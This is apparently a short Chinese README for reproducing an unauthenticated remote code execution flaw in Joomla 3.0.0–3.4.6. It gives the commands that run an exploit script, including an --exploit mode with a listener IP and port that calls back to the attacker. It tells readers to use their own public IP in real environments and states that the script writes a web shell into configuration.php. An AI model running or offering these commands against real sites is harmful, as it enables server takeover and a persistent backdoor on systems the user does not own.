



joomla 3.4.6未授权rce复现
-----

环境下载：https://downloads.joomla.org/it/cms/joomla3/3-4-6

## 漏洞复现

0、漏洞位置

http://x.x.x.x/configuration.php

影响范围：3.0.0-3.4.6

1、漏洞验证

`python3   joomla346_rce.py   -t    http://localhost:8123/joomla346/`

2、漏洞利用

`python3 joomla346_rce.py -t http://localhost:8123/joomla346/ --exploit -l 127.0.0.1 -p 7878`

在真实环境下-l -p应该分别为你主机外网ip与端口

执行成功后，可以看到我本地搭建的joomla3.4.6的configuration.php文件中已被写入shell

最开始在github上面放出来的那个poc，有个地方写错了，我对它进行了改正，并上传到了本目录下

